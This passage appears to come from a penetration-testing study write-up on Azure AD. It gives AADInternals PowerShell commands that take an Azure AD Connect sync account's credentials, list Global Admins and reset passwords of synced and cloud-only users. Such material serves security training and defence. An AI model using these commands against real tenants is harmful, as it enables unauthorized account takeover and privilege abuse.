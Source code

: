 ```powershell
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("Sync_DEFENG-ADCNCT_782bef6aa0a9@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```

Next, enumerate the Global Admins:
```powershell
Get-AADIntGlobalAdmins
```

To reset the password of an on-prem user that is synced to Azure AD, we need the *Immutable Id* (Unique Identifier derived from on-prem GUID) for the user:
```powershell
Get-AADIntUser -UserPrincipalName onpremadmin@tenant.onmicrosoft.com | select ImmutableId
```

Finally, reset the user's password:
```powershell
Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "Password123" -Verbose
```

> Access any Azure AD resource (like Azure portal) using the new password. For on-prem resources, the old password can be used.


To reset the password of a cloud-only user, we need their *CloudAnchor*, which can be calculated from their cloud ObjectID:
```powershell
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
```

> The CloudAnchor is of the format **USER_ObjectID**

Finally, reset the user's password:
```powershell
Set-AADIntUserPassword -CloudAnchor "User_10caa362-7d18-48c9-a45b-9c3a78f3a96b" -Password "Password#12321" -Verbose
```

> You can now access any Azure AD resource (like Azure portal) using the new password.


#### PTA

![Alt text](/assets/images/posts/cartp/18.png){: .align-center}

